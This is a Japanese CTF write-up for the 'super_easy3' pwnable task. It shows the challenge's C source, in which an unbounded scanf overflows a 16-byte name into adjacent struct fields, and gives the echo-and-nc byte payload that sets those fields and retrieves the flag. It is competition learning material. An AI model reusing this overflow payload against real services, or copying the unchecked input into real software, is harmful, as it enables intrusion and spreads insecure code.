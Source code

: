 # super_easy3:Pwnable:30pts
```
$ nc 34.145.29.222 30004
```
[dist.zip](dist.zip)  

# Solution
チームメンバがsuper_easyとsuper_easy2を解いていたため3から。  
dist.zipが配られる。  
以下のようにソースが入っていた。  
```c
#include <signal.h>
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

#define MAX_NAME_SIZE 16
#define MAX_TASK_SIZE 16

// バッファリングを無効化して時間制限を60秒に設定
__attribute__((constructor)) void setup() {
  alarm(60);
  setbuf(stdin, NULL);
  setbuf(stdout, NULL);
}

// TASKはタスクを管理する構造体
typedef struct {
  char name[MAX_NAME_SIZE]; // 最大16文字
  u_int32_t is_done;
  u_int32_t score;
  double rate;
  time_t deadline;
} TASK;

TASK task;

void show_flag() {
  double diff = difftime(time(NULL), task.deadline);
  if (task.is_done && task.score == 0x1337 && 0 >= diff &&
      diff >= 60 * 60 * 24) {
    printf("DO NOT CHEATING");
    return;
  }

  FILE *fp = fopen("flag", "r");
  if (fp == NULL) {
    fprintf(stderr, "flagが存在しません");
    return;
  }

  char flag[64];
  fgets(flag, 64, fp);
  printf(flag);

  fclose(fp);
}

void initialize() {
  // デフォルトではis_doneは0
  task.is_done = 0;

  // デフォルトのスコアは10
  task.score = 10;

  // 締め切りは次の日に設定
  time_t now = time(NULL);
  struct tm *now_tm = localtime(&now);
  now_tm->tm_mday += 1;
  task.deadline = mktime(now_tm);
}

int main() {
  // シグナルは無効化するよ
  struct sigaction sa = (struct sigaction){0};
  sa.sa_handler = SIG_IGN;
  if (sigaction(SIGINT, &sa, NULL) < 0) {
    return 1;
  }

  printf("Input task name\n");
  scanf("%s%*c", task.name);

  printf("task\n");
  printf("task name: %s\n", task.name);
  printf("task done: %d\n", task.is_done);
  printf("task score: %d\n", task.score);
  printf("task deadline: %s\n", ctime(&task.deadline));

  double diff = difftime(time(NULL), task.deadline);
  if (task.is_done && task.score == 0x1337 && 0 < diff && diff < 60 * 60 * 24) {
    show_flag();
  }
}
```
コードを読むと最後のifを満たせばよい。  
BOFがあるので`is_done`、`score`は簡単に改変できる。  
`diff`をうまく調整してやる必要があるが、結果が出力されるので増減させてやればよい。  
以下のように行う。  
```bash
$ echo -e "AAAAAAAAAAAAAAAA\x01\x00\x00\x00\x37\x13\x00\x00\x00AAAAAAAAA\xb5\x61" | nc 34.145.29.222 30004
Input task name
task
task name: AAAAAAAAAAAAAAAA
task done: 1
task score: 4919
task deadline: Sun Dec 12 00:24:33 2021

taskctf{n0w_y0u_kn0w_t1me_t}
```
`\xb5`あたりをいじればよい。  
flagが得られた。  
time_t見ていない…(すまん)。  

## taskctf{n0w_y0u_kn0w_t1me_t}
